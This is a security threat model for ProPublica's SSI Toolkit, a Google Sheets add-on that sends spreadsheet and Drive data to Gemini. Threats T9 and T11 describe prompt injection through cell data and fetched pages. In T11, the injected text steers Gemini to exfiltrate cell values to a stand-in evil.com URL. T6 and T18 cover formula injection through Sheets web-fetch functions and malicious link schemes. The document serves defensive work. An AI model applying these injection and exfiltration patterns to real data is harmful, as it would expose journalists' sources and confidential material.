


# SSI Toolkit — Threat Model

| Field | Value |
| --- | --- |
| Project | SSI Toolkit (Google Apps Script add-on for Google Sheets) |
| Description | ProPublica journalism tool providing Drive file listing, OCR text extraction, reproducible row sampling, and batch Gemini AI inference |
| Version | 1.2 |
| Last updated | 2026-07-29 |

---

## System Architecture Diagrams

### Runtime Data Flows

```mermaid
%%{init: {"flowchart": {"nodeSpacing": 80, "rankSpacing": 180, "curve": "monotoneX"}} }%%
flowchart LR
    subgraph USER_ZONE["User's Machine"]
        USER["Journalist / User"]
        SIDEBAR["Sidebar UI (browser iframe)"]
    end

    subgraph GAS_ZONE["Apps Script Runtime — Google-hosted, our code"]
        SERVER["Apps Script Server"]
        PROPS[("Script Properties\nGEMINI_API_KEY")]
    end

    subgraph WORKSPACE["Google Workspace"]
        OAUTH["Google OAuth (add-on consent)"]
        SHEETS["Google Sheets"]
        DRIVE["Google Drive"]
    end

    subgraph GCP["Google Cloud / AI Platform"]
        GEMINI_FILES["Gemini Files API (48h cache)"]
        GEMINI["Gemini Inference API"]
    end

    USER -->|"opens spreadsheet"| SHEETS
    SHEETS -->|"triggers onOpen"| SERVER
    SERVER -->|"serves sidebar"| SIDEBAR
    USER <-->|"interacts"| SIDEBAR
    SIDEBAR <-->|"google.script.run RPC"| SERVER
    USER -->|"OAuth consent (first use)"| OAUTH
    OAUTH -->|"grants scopes"| SERVER
    SERVER <-->|"reads rows / writes results"| SHEETS
    SERVER <-->|"lists folders, reads files"| DRIVE
    SERVER -->|"reads API key"| PROPS
    SERVER -->|"upload file blob"| GEMINI_FILES
    GEMINI_FILES -->|"file URI (cached 48h)"| SERVER
    SERVER -->|"prompt + file URI or base64"| GEMINI
    GEMINI -->|"AI response"| SERVER
```

### CI / CD Pipeline

```mermaid
%%{init: {"flowchart": {"nodeSpacing": 80, "rankSpacing": 180, "curve": "monotoneX"}} }%%
flowchart LR
    subgraph PUBLIC["Public Internet"]
        CONTRIB["Public Contributor"]
    end

    subgraph CICD["CI / CD"]
        GH["GitHub (public repo)"]
        GHA["GitHub Actions"]
    end

    subgraph TEAM["ProPublica Team"]
        DEV["Credentialed Developer"]
        CLASP["clasp"]
    end

    SERVER["Apps Script Server (production)"]

    CONTRIB -->|"submits PR"| GH
    GH -->|"triggers"| GHA
    GHA -.->|"lint / typecheck / test only\nnot a semantic security gate"| GH
    GH -->|"pulls code"| DEV
    DEV -->|"reviews & merges"| GH
    DEV -->|"runs deploy"| CLASP
    CLASP -->|"pushes compiled bundle\n(requires project editor access)"| SERVER
```

---

## 1. What Are We Working On?

### Assumptions and Scope

**In scope:**
- Apps Script server code and its interactions with GAS globals (SpreadsheetApp, DriveApp, UrlFetchApp, PropertiesService)
- Client-side sidebar (HtmlService iframe) and the `google.script.run` RPC boundary
- Gemini API integration — both inline base64 and Files API upload paths
- Drive, Sheets, and Docs operations performed by the add-on
- Script Properties as an API key store
- OAuth consent screen and declared scopes
- CI/CD pipeline (GitHub Actions + clasp deployment)

**Out of scope:**
- Google's internal infrastructure security (Apps Script runtime, Workspace backend, GCP)
- Security of the user's Google account or device
- Gemini API backend data handling beyond what is publicly documented
- Network-layer threats (TLS, DNS) — handled by Google's infrastructure

### Trust Boundaries

| Boundary | Description |
| --- | --- |
| User's Machine ↔ Apps Script Runtime | `google.script.run` RPC; structured typed calls, no shell access. Only reachable by JS running inside an `HtmlService` page served by this script project (the sidebar iframe) — the caller must already have view/edit access to the spreadsheet to load it; there is no separate web-app deployment (`doGet`/`doPost`) exposing it to unauthenticated callers. Bound-script functions execute with the *calling user's own* OAuth authorization, not an elevated "run as owner" context, so direct RPC abuse alone cannot reach resources the caller couldn't already access themselves |
| Apps Script Runtime ↔ Google Workspace | OAuth-gated; enforced by declared scopes in `appsscript.json` |
| Apps Script Runtime ↔ Google Cloud / AI Platform | API key-gated; key stored in Script Properties |
| Public Internet ↔ GitHub | PR submission; anyone can propose code changes |
| GitHub ↔ Apps Script Runtime | clasp deployment; requires Google account with project editor access |

### Components

| ID | Component | Description |
| --- | --- | --- |
| C1 | Sidebar UI | Client-side TypeScript running in a HtmlService browser iframe; the user-facing panel |
| C2 | Apps Script Server | Server-side orchestrator (`index.ts`); only component that touches GAS globals |
| C3 | Script Properties | Key-value store scoped to the script project; holds `GEMINI_API_KEY` |
| C4 | Google OAuth | Enforces add-on consent and scope grants on first use |
| C5 | Google Sheets | Spreadsheet being operated on; source of row data and output destination |
| C6 | Google Drive | Source of file listings and file content; also used for OCR temp doc creation/deletion |
| C7 | Gemini Files API | Accepts file blob uploads; returns a stable URI; caches files for 48 hours |
| C8 | Gemini Inference API | Accepts prompts and file references; returns AI-generated text |
| C9 | GitHub | Public source code repository |
| C10 | GitHub Actions | CI pipeline; runs lint, typecheck, and tests on push and PRs to `main` and `develop` |
| C11 | clasp | Deployment tool; pushes compiled bundle to the Apps Script project via the Apps Script API |

### Assets

| ID | Asset | Description |
| --- | --- | --- |
| A1 | `GEMINI_API_KEY` | API key granting access to both Gemini APIs; stored in Script Properties |
| A2 | Spreadsheet row data | User's research data in the active spreadsheet; read by SSI Toolkit server and potentially passed along to other services (Sidebar, Gemini, etc.) |
| A3 | Drive file content | Documents, PDFs, and images fetched from Drive; sent to Gemini for inference or OCR |
| A4 | Gemini AI responses | Model-generated text written back to the output column in the spreadsheet |
| A5 | OAuth tokens | Managed by Google; grant the add-on access to the user's Workspace data |
| A6 | Source code | Public GitHub repo; a malicious merged change could reach production via a developer deploy |

### Data Flows

| ID | Flow | Description |
| --- | --- | --- |
| F1 | User → Sheets → Server | User opens spreadsheet; `onOpen` trigger fires and renders the add-on menu |
| F2 | Server → Sidebar UI | Server calls `HtmlService` to serve `Sidebar.html` as an iframe |
| F3 | Sidebar UI ↔ Server | All sidebar→server calls use `google.script.run` RPC with typed structured data |
| F4 | User → OAuth | User grants add-on scopes on first use via Google's consent screen |
| F5 | OAuth → Server | Google enforces granted scopes on all subsequent GAS API calls |
| F6 | Server ↔ Sheets | Server reads row data and column headers; writes AI results back to the output column |
| F7 | Server ↔ Drive | Server lists folders recursively; reads file blobs; creates and deletes OCR temp docs |
| F8 | Server → Script Properties | Server reads `GEMINI_API_KEY` before each Gemini API call |
| F9 | Server → Gemini Files API | Server uploads Drive file blobs using resumable upload protocol |
| F10 | Gemini Files API → Server | Files API returns a stable URI; file is cached on GCP for 48 hours |
| F11 | Server → Gemini Inference API | Server sends prompt, system instruction, and file URI or base64 data |
| F12 | Gemini Inference API → Server | Model returns generated text; server writes it to the spreadsheet |
| F13 | Contributor → GitHub | Public contributor submits a pull request |
| F14 | GitHub → GitHub Actions | CI pipeline triggers on push and PR events |
| F15 | Developer → clasp → Server | Credentialed developer pulls code, builds, and pushes bundle to Apps Script |

### External Dependencies

| ID | Dependency | Notes |
| --- | --- | --- |
| D1 | Google Apps Script platform | Runtime environment; no SLA for add-on availability beyond Google's standard terms |
| D2 | Gemini API (Google AI) | External inference endpoint; data handling governed by Google AI terms of service |
| D3 | GitHub / GitHub Actions | Source hosting and CI; public repo means code and CI logs are publicly visible |
| D4 | clasp CLI | Open-source deploy tool maintained by Google; pinned via `package.json` |

### Stakeholders

| ID | Stakeholder | Interests / Potential Harm |
| --- | --- | --- |
| S1 | Journalists / Users | Confidentiality of research data and Drive files sent to Gemini; accuracy of AI outputs written to spreadsheet |
| S2 | ProPublica (organization) | Reputation, data security posture, compliance with internal data policies |
| S3 | Editors / Data team | Trust in AI-generated content written to shared spreadsheets |
| S4 | Security team | Visibility into what data leaves the organization's Google Workspace |

---

## 2. What Can Go Wrong?

| ID | Threat | Affected elements | Description |
| --- | --- | --- | --- |
| T1 | API key exfiltration | A1, C3 | `GEMINI_API_KEY` stored in Script Properties could be read by anyone with Apps Script project editor access, or by a malicious add-on if script project permissions are misconfigured |
| T2 | Sensitive data sent to external AI endpoint | A2, A3, C8, S1 | Spreadsheet row data and Drive file content — potentially including PII or confidential source material — is sent to the Gemini Inference API, which is outside the organization's Google Workspace boundary |
| T3 | File content persists on GCP for 48 hours | A3, C7 | Files uploaded via the Gemini Files API are cached on Google Cloud for 48 hours. The file URI is not guessable, but the data is held outside the user's Drive for that window |
| T4 | Malicious code contribution via public PR | A6, C2, C9, C10, C11 | A malicious contributor submits a PR that passes CI (lint/typecheck/tests cannot detect malicious intent). A credentialed developer merges and deploys it without catching the harmful logic; the code then runs inside users' spreadsheets. A variant of this attack targets `appsscript.json` directly: expanding the declared OAuth scopes causes every user to be re-prompted on their next interaction, likely granting broader permissions without scrutiny |
| T5 | Overly broad Drive read access | A2, A3, C4, C6 | The `drive.readonly` scope grants read access to the user's entire Drive. A compromised add-on (e.g., via T4) could exfiltrate files beyond what the user intended to share. Security review (2026-07): the manifest also requests the full read/write `documents` scope though the code only ever performs read-only Doc operations (`getBody().getText()`) during OCR conversion — broader than necessary |
| T6 | Formula injection via untrusted-origin cell writes | A4, C5 | Six Apps Script functions write content to spreadsheet cells that the acting user did not directly and knowingly type into that specific cell: `runBatchAI` (AI-generated text, plain/markdown/grounding), `extractText` (Drive document/OCR text), `formatMarkdownSelection` (re-parses and rewrites a selection's existing cell content), `sampleRowsToEvaluation` (bulk-copies existing cell content, including previously-written AI/Extract-Text output, into a new `_evaluation` sheet), and `writeColumn`/`findOrCreateColumn` (the shared write primitives used by `importDriveLinks` and `prepRecipe`, including form-field values a collaborator typed into a recipe input rather than a cell). Because Sheets evaluates any string beginning with `=`, `+`, or `-` as a formula regardless of which API wrote it, and none of these six functions' contract genuinely requires producing a *live* formula (Apps Script provides `setFormula()`/`setFormulas()` as the distinct, explicit API for that intent, unused by any of the six), a value assembled by our own code can become an auto-executing formula the moment it's written — most dangerously via Sheets' web-fetch functions (IMAGE, IMPORTDATA, IMPORTXML, IMPORTHTML, IMPORTRANGE, IMPORTFEED), which can encode adjacent cell values into an outbound HTTP request. This is the general vulnerability class underlying the point-fixes previously tracked as R8 (AI-56), R21 (AI-75), and R22 (AI-76) — all three are superseded by R45's structural fix (see below). Considered: the Gemini grounding-markdown write (`groundingToMarkdown`) always wraps variable/attacker-influenceable content (citation titles, URLs) behind a fixed literal prefix (`"Sources (...)"`, `"Search queries: ..."`), so its assembled string's first character can never be a formula-trigger character regardless of grounding-source content — not itself a live gap, but routed through the same safe-write primitive anyway per R45's blanket policy. Out of scope (accepted residual risk, see R45): a human user manually copy-pasting (Ctrl+C/Ctrl+V, paste-special-values, drag-fill) an already-neutralized cell's content into a new cell in the Sheets UI — no Apps Script code or trigger runs before/during a native clipboard paste, so this cannot be intercepted by anything in this add-on's control; consistent with the existing note that user-authored formulas are outside this add-on's threat model |
| T7 | Developer account compromise | C2, C11 | If a Google account with project editor access is compromised (e.g., phishing, credential reuse), an attacker could deploy arbitrary code to the production Apps Script project |
| T8 | RPC boundary abuse | A1, C1, C2, C3, C7, C8 | Every server-side function exposed to the client — i.e., every function stubbed in the `rollup.config.js` footer for Apps Script discovery — is reachable directly via `google.script.run` from the sidebar, with no argument shape enforced beyond whatever the client happens to send. Realistic threat actor: anyone with view/edit access to the spreadsheet and the add-on (able to load the sidebar, open devtools on that iframe, and call any exposed function directly, bypassing all client-side guardrails and validation) or a supply-chain-compromised client dependency (T10) — not an anonymous internet caller, since calls execute with the caller's own OAuth authorization rather than an elevated context (see Trust Boundaries above). Two abuse patterns follow from this exposure: (1) calling an exposed function with unexpected, malformed, or adversarial arguments that the server processes without sufficient validation (e.g. an unbounded `rowRange`, an unrecognized `tools`/`model` value, a malformed `PrepColSpec`); (2) inducing an exposed function to eject sensitive information back across the RPC boundary that the calling context should not receive (e.g. verbose exception detail, internal state). The real escalation risk from pattern (1) is when it combines with a confused-deputy pattern (T16): a lower-privileged collaborator's planted RPC input is later acted on by a higher-privileged user through the normal UI, not by breaking the RPC boundary's authentication itself. Security review (2026-07): confirmed unimplemented — `config.model`, `config.tools` (index.ts, inference.ts), and `prepRecipe`'s `cols`/`fillStrategy` all cross the RPC boundary with no server-side allow-list or shape validation before being used to build Gemini requests or write columns. Security review (2026-07-13): audited every function exposed via the `rollup.config.js` footer against both abuse patterns above. New gaps confirmed — `importDriveLinks`'s `folderUrl`/`mimeTypes` and `extractText`'s `rowRange` have no input validation at all (R41); `importDriveLinks`, `extractText`, `prepRecipe`, and `sampleRowsToEvaluation` have no try/catch whatsoever, so any Drive/Sheets exception propagates to the client's failure handler completely unscrubbed (R42), a gap distinct from and broader than T17/R25's scope (which only covers `runInference`/`SSI`'s already-caught errors). Confirmed safe, not a gap: `runTool`'s dispatch table (`index.ts:586-591`) is a hardcoded closed allow-list, so a client-supplied function name cannot reach arbitrary server functions; `SSI`'s `toolNames` is already validated inline against `TOOL_REGISTRY` Security review (2026-08-12): reviewed the newly `rollup.config.js`-exposed `getDefaultRowRange()` against this threat — it takes no arguments and returns only a row range trivially derivable from data the caller can already read directly (the sheet's own row count), so it introduces no new argument-validation or information-disclosure surface. |
| T9 | Prompt injection via spreadsheet data | A2, C2, C8, S1 | Cell values read from the spreadsheet are passed verbatim into the Gemini prompt. If data originates from an external source (scraped content, third-party datasets, interview responses), a malicious cell value could hijack model behavior — distinct from T6, which targets the spreadsheet renderer rather than the model |
| T10 | npm build dependency compromise | A6, C2, C11 | A compromised npm package in the build toolchain (Rollup, ts-jest, etc.) could inject malicious code into the compiled bundle at build time, before any PR review. The attack surface is `node_modules`, not the repo. Security review (2026-07): `devDependencies` including `@google/clasp` are pinned with caret ranges rather than exact versions, so a regenerated lockfile could silently accept a compromised minor/patch release under the same major version |
| T11 | url_context tool as uncontrolled egress path | A2, C8, S1 | When the `url_context` Gemini grounding tool is enabled, Gemini fetches URLs it encounters during inference — from direct cell values, but potentially even URLs contained within linked documents. Two specific vectors: (1) **Direct fetch**: any URL in a prompt column cell (from scraped data, vendor exports, interview notes, even  etc.) is retrieved by Gemini; the attacker's server logs confirm the fetch and can observe timing and request metadata. (2) **Response injection**: the attacker's URL returns a page containing prompt injection instructions that tell Gemini to make a follow-up fetch with cell data appended as query parameters — e.g. `www.evil.com/collect?name=[journalist source]&org=[org name]` — exfiltrating adjacent cell values with no formula ever written to the sheet. This chain (T9→T11) bypasses `sanitizeForCell` entirely because exfiltration happens at inference time, not via cell output. Security review (2026-07): a related vector exists in our own server code independent of whether `url_context` is enabled — `resolveGroundingUris()` (`src/server/utils.ts`) fetches grounding-chunk redirect URIs and trusts the resolved `Location` header with no check that the URI belongs to Google's Vertex AI Search redirect service, allowing a spoofed citation link |
| T12 | Stackdriver logging captures sensitive data | A2, A3, C2 | `appsscript.json` routes exceptions to Stackdriver. If error handling includes cell values or file names in exception messages, sensitive journalist data lands in logs accessible to anyone with GCP project access |
| T13 | Drive recursive scan resource exhaustion | C2, C6 | Import Drive Links recursively scans folders via the Drive Advanced Service. A deeply nested or very large folder tree could hit Apps Script's 6-minute execution timeout or memory ceiling, terminating the user's session mid-run. Security review (2026-07): `extractTextUniversal`'s OCR path has no file-size cap before `Drive.Files.create` (acknowledged TODO in code) |
| T14 | GCP cost explosion via API key abuse or large batch runs | A1, C3, C7, C8, S2 | Two vectors: (1) an attacker who obtains `GEMINI_API_KEY` (via T1 or other means) can run unlimited inference and Files API uploads against the GCP project's billing account with no application-layer backstop; (2) a legitimate user running batch inference over a very large row range or uploading many large files can generate significant unexpected costs without any in-app cost estimate or confirmation step. Security review (2026-07): vector (2) is broader than previously scoped — `runBatchAI` has no server-side cap on `rowRange` size (the sidebar's client-side chunking is bypassable via a direct RPC call, see T8), the batch file pipeline (`fetchDriveMetadata` → `downloadDriveFiles` → `uploadFilesToGemini`) has no size gate before downloading/uploading, the inline `exportAndEncodeFile` path pulls full Sheet content into memory before its own size check runs, and no `generationConfig.maxOutputTokens` is set on any Gemini request — compounding to make one tampered or oversized `RunConfig` capable of unbounded cost in a single execution (chains with the T8 validation gap above) Security review (2026-08-12): `PromptColumnSpec.kind: "auto"` (see T16) broadens vector (2)'s file-pipeline surface — a batch run's file downloads/uploads are no longer bounded to explicitly-declared `"file"` columns, since any `"auto"` column containing Drive links now feeds the same uncapped pipeline. |
| T15 | OCR temp doc data residue | A3, C6 | The Extract Text OCR flow creates a temporary Google Doc, reads its content, then deletes it. If execution is interrupted between creation and deletion (e.g. Apps Script timeout, memory ceiling, unhandled exception), the temp Doc persists in the user's Drive containing the OCR'd text of potentially sensitive source material with no automatic cleanup or recovery path |
| T16 | Confused-deputy Drive file access via unvalidated fileId | A3, C2, C6 | `fetchDriveMetadata` and `downloadDriveFiles` (`src/server/drive.ts`) fetch Drive file content/metadata for any fileId extracted from spreadsheet cell text, using the invoking user's own OAuth token, with no check that the ID was produced by the tool's own workflow (e.g. Import Drive Links) or belongs to a folder the user explicitly selected. A collaborator with only edit access to a shared sheet can plant the Drive ID of an unrelated file the sheet owner has access to elsewhere in their Drive into a "file" prompt column. When the owner runs Run AI, the owner's higher-privileged OAuth token downloads that file's full content and Gemini's analysis of it is written to an output column the collaborator can read — a confused-deputy/IDOR pattern letting a lower-privileged editor exfiltrate the content of any Drive file the owner can access, without ever touching the RPC boundary maliciously (see T8). Chained with T6: if the planted file's content also triggers a sanitizeForCell bypass, the collaborator can additionally get a live formula written to the sheet by riding the owner's session Security review (2026-08-12): `PromptColumnSpec.kind: "auto"` (added in `src/server/inference.ts` for a not-yet-shipped guided-inference flow) widens this threat's reach — the per-column `"file"` declaration that previously bounded which columns triggered Drive-ID fetching is no longer the only path in. Any prompt column marked `"auto"` has its cell content inspected at request-build time, and any detected Drive link is fetched and processed exactly like an explicit `"file"` column, via the same unvalidated-fileId pattern this threat describes. No client-side producer of `"auto"` ships yet — it's reachable today only via a direct RPC call to `runBatchAI` (see T8), not through any shipped UI — but R23 should be revisited to also cover `"auto"`-kind columns once a client surfaces this kind. Security review (2026-08-17, AI-101): the anticipated client-side producer has now shipped — `InputsStep` (`src/client/panels/guided/inputs-step.ts`), part of the new Guided AI Inference flow, marks every input row (existing column or auto-imported Drive folder) as `kind: "auto"` with no user-facing kind choice at all, by design (see the wireframe spec). This doesn't introduce a new mechanism — the server-side `"auto"` handling this entry references was already live — but it is the first shipped UI surface that reaches it, converting this from a latent, RPC-only exposure into one reachable through the normal menu. R23 remains Open and unimplemented; this entry is updated to reflect that its remediation is no longer optional-until-a-client-ships, per the note left in the prior review. |
| T17 | API key exposure via URL and echoed exceptions | A1, C2, C7, C8 | `callGeminiAPI`/`callGeminiAPIBatch` (`src/server/api.ts`) and `uploadFilesToGemini` (`src/server/files.ts`) pass `GEMINI_API_KEY` as a URL query parameter (`?key=...`) rather than a request header. `UrlFetchApp` can throw an exception containing the full request URL — key included — on a fetch-level failure (DNS error, timeout) that `muteHttpExceptions` does not suppress. Both `runInference()`'s catch block and `SSI()`'s catch block (`src/server/customFunctions.ts`) write the raw exception message directly into a spreadsheet cell with no scrubbing. Any editor of the sheet can trigger this path (e.g. by typing `=SSI(...)` into a cell) and, if a network hiccup occurs, walk away with the live production API key in a cell they can already read, usable directly against Gemini at the organization's expense. Fixed 2026-07-29 (AI-78/R24): all three call sites now authenticate with the `x-goog-api-key` header via `src/server/gemini-auth.ts`, so no credential appears in a request URL and a `UrlFetchApp` exception can no longer echo one. `__tests__/api-key-hygiene.test.ts` fails the build if the pattern returns. The R25 half of this threat remains open — `runInference()` and `SSI()` still write raw exception messages into cells, which is a general information-disclosure gap even without the key in scope (see AI-79) |
| T18 | Malicious hyperlink injection via AI/grounding markdown | A4, C5, C8 | `processMarkdownInline` (`src/server/markdown-to-rich-text.ts`) and `injectCitations` (`src/server/gemini-grounding.ts`) extract link URLs from Gemini-generated markdown and grounding citations and call `setLinkUrl()` on the cell with no scheme allow-list. Because both the model's own text and grounding metadata (search results, `url_context`-fetched page content) are attacker-influenceable per T9/T11, a prompt-injected response can embed a non-http(s) URI (e.g. `javascript:`, `data:`) as a live cell hyperlink. Separately, `groundingToMarkdown` interpolates untrusted page titles from `url_context` fetches into a `[title](uri)` template with no escaping — a title containing `](` can forge a second link with an attacker-chosen anchor and destination, making a citation display as trustworthy while pointing to a phishing/malware URL. A related reliability gap in the same function: `groundingToMarkdown`'s `code_execution` output has no length cap and no try/catch at its `setRichTextValue` call site, so an oversized value can throw and abort the rest of a batch write |

---

## 3. What Are We Going to Do About It?

| Threat | Response ID | Strategy | Description |
| --- | --- | --- | --- |
| T1 | R1 | Reduce | Limit Apps Script project editor access to the minimum required team members; audit access periodically |
| T1 | R2 | Reduce | Document key rotation procedure; rotate immediately if compromise is suspected |
| T2 | R3 | Accept + document | Sending data to Gemini is core product functionality; document clearly in user-facing guidance what data is transmitted and advise users not to include unnecessary PII in prompt columns |
| T3 | R4 | Accept | Files API 48h TTL is not configurable; file URIs are not guessable; risk is accepted given Google's infrastructure controls |
| T4 | R5 | Reduce | Enforce required PR reviews via GitHub branch protection on `main` and `develop`; document explicitly that CI passing is not a security gate |
| T4 | R6 | Reduce | Limit the number of team members with clasp deploy access to reduce the window of opportunity for an inadvertent deploy of a malicious change |
| T5 | R7 | Accept | `drive.readonly` is the minimum scope that supports recursive folder scanning — a core feature. The scope was already reduced from the broader `drive` scope. Accept residual risk; revisit if a narrower API path becomes available |
| T6 | R8 | Reduce | Implement `sanitizeForCell()` in `src/server/utils.ts` and wire it into every `setValue()` call on the AI output column. Two-tier check: (1) if the value starts with `=`, `+`, or `-` and contains any web-fetch function call (IMAGE, IMPORTDATA, IMPORTXML, IMPORTHTML, IMPORTRANGE, IMPORTFEED) anywhere in the formula — including nested positions — replace with an explicit error string rather than writing to the sheet; (2) if the value starts with a formula trigger but contains no web-fetch function, prefix with `'` so Sheets renders it as a literal string. The chained T9→T6 variant (AI references a cell containing a malicious URL) is caught by the same check because the formula string still contains the web-fetch function name. Superseded by R45 — see AI-89 |
| T7 | R9 | Reduce | Require 2-factor authentication on all Google accounts with project editor access |
| T8 | R10 | Reduce | Treat every server-side function exposed via the `rollup.config.js` footer as part of the RPC trust boundary: validate and sanitize all client-supplied arguments before use (shape, allow-listed values, bounds) rather than trusting the client's own guardrails; ensure return values and thrown errors never eject sensitive information (API keys, Script Property values, internal exception detail, other users' state) back across the boundary. Apply this check to any newly-added exposed function, not just the ones already audited |
| T9 | R11 | Accept + document | Prompt injection is a fundamental LLM challenge with no complete technical mitigation at the application layer. Document the risk in user-facing guidance; advise users to treat AI output critically when prompt columns contain externally sourced data. Consider a hardened system prompt that instructs the model to ignore injected instructions |
| T10 | R12 | Reduce | Run `npm audit` in CI and fail on high/critical vulnerabilities; enforce `npm ci` (already in place) to ensure the lockfile governs installs; periodically review and update dependencies |
| T10 | R40 | Reduce | Add `min-release-age=1` in an `.npmrc` file to enforce minimal package age during local deployment |
| T11 | R13 | Reduce | Surface a warning in the sidebar when `url_context` is enabled that is specific about both vectors: (1) URLs already present in your dataset — from scraped sources, vendor exports, or imported CSVs — will be fetched by Gemini during inference, not just URLs you type in the prompt; (2) an attacker who controls one of those URLs can return a page with instructions that cause Gemini to make additional requests with cell data appended as query parameters. Warning copy should advise users to only enable `url_context` on datasets they trust and to treat any column containing externally sourced data as a potential injection point. Post-MVP: implement a pre-inference URL scan that detects URLs in prompt column cells and alerts the user before the run proceeds (deferred — see Open Items) |
| T12 | R14 | Reduce | Audit exception handling in `index.ts` to ensure cell values, file names, and API responses are not included in thrown error messages; log structured codes rather than raw data |
| T12 | R20 | Reduce | Configure the GCP Cloud Logging retention policy for the Apps Script project to the shortest period consistent with operational needs (e.g., 7 days). Apps Script execution logs are retained indefinitely by default; reducing retention limits the exposure window if sensitive data is accidentally captured in a log entry |
| T13 | R15 | Accept | GAS execution limits are a platform constraint. Document the limitation in user-facing guidance; consider adding a pre-scan folder size estimate with a warning if the tree exceeds a safe threshold |
| T14 | R16 | Reduce | Configure GCP budget alerts on the project with email notification thresholds (e.g. 50%, 90%, 100% of monthly budget); enable a hard spend cap if the GCP billing account supports it |
| T14 | R17 | Reduce | Set per-API-key quotas in Google Cloud Console to cap daily request volume and token usage for `GEMINI_API_KEY`; this limits blast radius for both key abuse and accidental overuse |
| T14 | R18 | Reduce | Surface the row count to the user before confirming a large batch run and add a configurable warning threshold (e.g. >500 rows); this gives users a chance to scope down before generating a large number of API calls. Superseded by R44 — see AI-88 |
| T15 | R19 | Reduce | Three-part mitigation: (1) wrap temp doc deletion in a `finally` block so cleanup runs even on exception; (2) if deletion fails, surface an explicit alert to the user in the sidebar identifying the orphaned doc by name so they can delete it from Drive themselves; (3) name all temp docs with a recognizable prefix (e.g. `[SSI-TEMP]`) so orphaned docs are identifiable in Drive even if the alert is missed |
| T6 | R21 | Reduce | Route Extract Text's extracted-text write through `sanitizeForCell()` before `setValue()` (`index.ts:164`). Superseded by R45 — see AI-89 |
| T6 | R22 | Reduce | Route the `applyMarkdown` branch's assembled plain text through `sanitizeForCell()` before building the `RichTextValue`, or fall back to the plain `setValue()` path when it flags a dangerous formula (`index.ts:546`). Superseded by R45 — see AI-89 |
| T16 | R23 | Reduce | Restrict Drive fileId processing in `fetchDriveMetadata`/`downloadDriveFiles` to IDs the tool itself produced (e.g. via Import Drive Links), or verify the file's parent folder matches the folder the user explicitly selected before adding it to a batch |
| T17 | R24 | Reduce | Send `GEMINI_API_KEY` via the `x-goog-api-key` request header instead of the URL query string in `callGeminiAPI`, `callGeminiAPIBatch`, and `uploadFilesToGemini`. Implemented 2026-07-29 (AI-78): credential resolution consolidated into `src/server/gemini-auth.ts` (`geminiAuthHeaders()`), `GeminiRequest.apiKey` and `uploadFilesToGemini`'s `apiKey` parameter deleted so the raw key no longer crosses a function boundary, and `CONFIG.API_KEY_PROPERTY` removed |
| T17 | R25 | Reduce | Return generic error strings from `runInference()`'s and `SSI()`'s catch blocks instead of raw exception messages; log the full exception server-side only |
| T8 | R26 | Reduce | Validate `config.model` against a server-side allow-list and `config.tools` (both `runBatchAI` and `buildInferenceRequest`) against `TOOL_REGISTRY` before use, returning a clear error instead of an unchecked call or deep throw |
| T14 | R27 | Reduce | Enforce a hard row-count cap inside `runBatchAI` itself, independent of the sidebar's client-side chunking |
| T14 | R28 | Reduce | Add a file-size gate to the batch AI file pipeline (`fetchDriveMetadata` → `downloadDriveFiles` → `uploadFilesToGemini`), reusing the size-check logic already in `prepareDriveAttachments` |
| T14 | R29 | Reduce | Set a default `generationConfig.maxOutputTokens` in `CONFIG`, overridable per run |
| T18 | R30 | Reduce | Allow-list `http:`, `https:`, and `mailto:` schemes before calling `setLinkUrl()` in `processMarkdownInline` and `injectCitations`; render plain unlinked text otherwise |
| T18 | R31 | Reduce | Escape or strip markdown-structural characters (`[`, `]`, `(`, `)`) from citation titles and search queries before interpolating into `[title](uri)` templates |
| T11 | R32 | Reduce | Validate the grounding redirect URI's host (ends with `vertexaisearch.cloud.google.com`) and scheme (`https:`) in `resolveGroundingUris()` before fetching/trusting it |
| T5 | R33 | Reduce | Narrow the `documents` OAuth scope to `documents.readonly` |
| T8 | R34 | Reduce | Validate `prepRecipe`'s incoming `PrepColSpec` entries server-side (`fillStrategy.kind` is a known union value, `colTitle` is non-empty) before executing |
| T13 | R35 | Reduce | Add a file-size cap before `extractTextUniversal`'s OCR path calls `Drive.Files.create` |
| T18 | R36 | Reduce | Apply `truncateText()` to `code_execution` output before embedding it in grounding markdown, and wrap its `setRichTextValue` call in the same try/catch used for the main output column |
| T14 | R37 | Reduce | Move the Tier 2 size check in `prepareDriveAttachments` ahead of `exportAndEncodeFile`'s `getDataRange().getValues()` call, or add a cheap row×column size proxy upfront for Sheets specifically |
| T10 | R38 | Reduce | Pin `@google/clasp` (and other security-sensitive build/deploy tooling) to exact versions rather than caret ranges |
| T4 | R39 | Reduce | Add an explicit `permissions: contents: read` block to the CI workflow |
| T8 | R41 | Reduce | Add server-side input validation to `importDriveLinks` (`folderUrl` format, `mimeTypes` shape) and `extractText` (`rowRange` bounds checked against the sheet's actual row count) |
| T8 | R42 | Reduce | Wrap `importDriveLinks`, `extractText`, `prepRecipe`, and `sampleRowsToEvaluation` in try/catch and return scrubbed error text instead of letting raw Drive/Sheets exceptions reach the client via the default `google.script.run` failure serialization |
| T14 | R43 | Reduce | Add a "Test" button to the Run AI Inference panel that runs the configured batch across the first 10 rows and surfaces measured execution time, average cost per row, and total cost of the test run — giving users an empirical, configuration-specific cost signal before committing to a full batch. Token usage and Gemini pricing are captured and persisted to `CacheService` (`runStats:{spreadsheetId}`) for R44, but a full-run cost projection is not yet surfaced in this UI — deferred to R44/AI-88 (AI-87) |
| T14 | R44 | Reduce | Replace the static 200-row warning in `ConfigureAIRunPanel` with a test-coverage gate: for a run above `CHUNK_SIZE` (40) rows with no test measurement matching the live config, warn that the run is untested and let the user cancel or continue. "Matching" reuses `buildConfigSnapshot`/`configsMatch`, so editing the config after testing re-arms the warning. Deliberately narrower than originally scoped — **no cost or time threshold ships**: the per-row cost from a 10-row test does not extrapolate reliably (file-mode rows vary by orders of magnitude), and a time projection would be wrong by several multiples because the file sub-batch loop in `runBatchAI` is sequential. Gating on a known-unreliable figure would give users false precision. Also fixes the previous warning being unreachable in the default "Use highlighted rows" mode, where it never fired at any row count. This is a **user-error backstop only** — it is client-side, bypassable via a direct RPC call (T8), and does not cap spend; the actual cost ceilings remain R16/R17 (GCP budget alerts and per-key quotas) and R27/R29 (server-side row and token caps), all still open (AI-88; supersedes R18) |
